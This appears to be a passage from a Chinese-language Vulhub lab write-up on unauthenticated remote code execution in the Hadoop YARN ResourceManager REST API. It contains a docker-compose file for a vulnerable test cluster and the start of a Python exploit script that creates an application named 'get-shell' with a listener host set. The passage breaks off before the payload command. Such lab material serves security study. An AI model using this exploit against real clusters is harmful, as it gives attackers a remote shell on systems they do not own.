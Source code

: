 使用docker-compose.yml

```text
version: '2'

services:
  namenode:
    image: vulhub/hadoop:2.8.1
    environment:
      - HDFS_CONF_dfs_namenode_name_dir=file:///hadoop/dfs/name
      - CLUSTER_NAME=vulhub
      - HDFS_CONF_dfs_replication=1
    command: /namenode.sh

  datanode:
    image: vulhub/hadoop:2.8.1
    environment:
      - HDFS_CONF_dfs_datanode_data_dir=file:///hadoop/dfs/data
      - CORE_CONF_fs_defaultFS=hdfs://namenode:8020
      - CLUSTER_NAME=vulhub
      - HDFS_CONF_dfs_replication=1
    command: /datanode.sh

  resourcemanager:
    image: vulhub/hadoop:2.8.1
    environment:
      - CORE_CONF_fs_defaultFS=hdfs://namenode:8020
      - YARN_CONF_yarn_log___aggregation___enable=true
    command: /resourcemanager.sh
    ports:
      - "8088:8088"

  nodemanager:
    image: vulhub/hadoop:2.8.1
    environment:
      - CORE_CONF_fs_defaultFS=hdfs://namenode:8020
      - YARN_CONF_yarn_resourcemanager_hostname=resourcemanager
      - YARN_CONF_yarn_log___aggregation___enable=true
      - YARN_CONF_yarn_nodemanager_remote___app___log___dir=/app-logs
    command: /nodemanager.sh
```

`docker compose up -d`

<br/>

##### 2）漏洞利用

*a.脚本利用*

```python
import requests
import json

target = 'http://192.168.81.127:8088/'
lhost = '192.168.81.238'

url = f'{target}ws/v1/cluster/apps/new-application'
resp = requests.post(url).content.decode('utf-8')
resp_json = json.loads(resp)

app_id = resp_json['application-id']
url = f'{target}ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
```